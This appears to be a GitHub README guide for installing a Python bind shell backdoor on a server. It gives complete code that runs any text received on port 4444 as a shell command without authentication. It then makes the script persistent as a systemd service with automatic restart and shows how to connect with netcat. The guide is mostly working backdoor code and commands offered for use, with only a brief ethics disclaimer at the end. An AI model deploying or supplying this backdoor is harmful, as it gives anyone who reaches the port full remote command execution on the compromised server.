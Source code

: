 # Python Bind Shell on Server

## Introduction

This guide demonstrates how to set up a Python bind shell backdooe on a server and connect to it using `netcat` from remote machine.

## Steps

### 1. Create a Python Bind Shell Script

create file using ```sudo nano /usr/local/bin/bind_shell.py```
Create a Python script (e.g., `bind_shell.py`) with the following content:

```python
#!/usr/bin/env python3

import socket
import subprocess

def main():
    # Change the IP address and port as needed
    bind_ip = "0.0.0.0"
    bind_port = 4444

    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind((bind_ip, bind_port))
    server.listen(5)

    print(f"[*] Listening on {bind_ip}:{bind_port}")

    while True:
        client, addr = server.accept()
        print(f"[*] Accepted connection from {addr[0]}:{addr[1]}")

        data = client.recv(1024).decode()
        process = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        output = process.stdout.read() + process.stderr.read()

        client.sendall(output)
        client.close()

if __name__ == "__main__":
    main()

```
## Save the file and make it executable:
``` sudo chmod +x /usr/local/bin/bind_shell.py ```

## Now, let's create a systemd service file for the bind shell:
```sudo nano /etc/systemd/system/bind-shell.service``` Add the following content: 
```
[Unit]
Description=Bind Shell Service
After=network.target

[Service]
ExecStart=/usr/local/bin/bind_shell.py
Restart=always

[Install]
WantedBy=multi-user.target
```
Save the file and exit the text editor. Reload the systemd daemon and start the service:
```bash
sudo systemctl daemon-reload. 
sudo systemctl start bind-shell
```
Check the status:
``` sudo systemctl status bind-shell ```

connect using: ```nc <server_ip> 4444```

This should create a bind shell service using systemd. Make sure to secure your bind shell service properly, as it can pose security risks and alerting.

## ⚠️ By using or contributing to this project, you agree to abide by ethical standards and legal regulations. The project owners and contributors are not responsible for any misuse of the code.
